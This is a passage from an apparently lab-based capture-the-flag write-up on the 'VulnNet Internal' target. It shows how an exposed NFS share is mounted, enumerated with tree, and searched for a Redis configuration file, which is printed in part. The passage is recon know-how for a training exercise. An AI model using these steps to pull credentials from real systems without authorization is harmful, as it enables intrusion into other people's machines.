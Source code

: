 <p>Created a directory <code>mount</code>.</p>

```bash
:~/VulnNetInternal# mkdir mount
```

<p>Mounted our target in the directory created previously</p>

```bash
~/VulnNetInternal# sudo mount -t nfs vulnet-internal: mount
```

<p>Analyzed the hierarchy using <code>tree</code> command.<br>
Discovered <code>redis.conf</code>.</p>

```bash
~/VulnNetInternal# tree mount
```

![image](https://github.com/user-attachments/assets/f85b31cb-3043-45ea-b711-34d98185c2df)


<p>Discovered a password, and configuration parameters.</p>

```bash
~/VulnNetInternal/mount/opt/conf/redis# ls
redis.conf
~/VulnNetInternal/mount/opt/conf/redis# cat redis.conf | more
# Note that in order to read the configuration file, Redis must be started with the file path as first argument:
./redis-server /path/to/redis.conf
### Memory
rename-command FLUSHDB ""
rename-command FLUSHALL ""
## Includes: If instead you are interested in using includes to override configuration options, it is better to use include as the last line.
# include /path/to/local.conf
# include /path/to/other.conf
## Modules: Load modules at startup
# loadmodule /path/to/my_module.so
# loadmodule /path/to/other_module.so
## Network: By default, if no "bind" configuration directive is specified, Redis listens for connections from all the network interfaces available on the server. It is possible to listen to just one or multiple selected interfaces using the "bind" configuration directive, followed by one or more IP addresses.
# bind 192.168.1.100 10.0.0.1
# bind 127.0.0.1 ::1
## Network: IF YOU ARE SURE YOU WANT YOUR INSTANCE TO LISTEN TO ALL THE INTERFACES JUST COMMENT THE FOLLOWING LINE.
bind 127.0.0.1 ::1
## Protected mode: The server only accepts connections from clients connecting from the IPv4 and IPv6 loopback addresses 127.0.0.1 and ::1, and from Unix domain sockets.  By default protected mode is enabled. You should disable it only if you are sure you want clients from other hosts to connect to Redis even if no authentication is configured, nor a specific set of interfaces are explicitly listed using the "bind" directive.
protected-mode yes
## Port
port 6379
## TCP listen( ) backlog
tcp-backlog 511
## Unix socket. Specify the path for the Unix socket that will be used to listen for incoming connections. There is no default, so Redis will not listen on a unix socket when not specified.
# unixsocket /var/run/redis/redis-server.sock
# unixsocketperm 700
##  Close the connection after a client is idle for N seconds (0 to disable)
timeout 0
## TCP keepalive
tcp-keepalive 300
```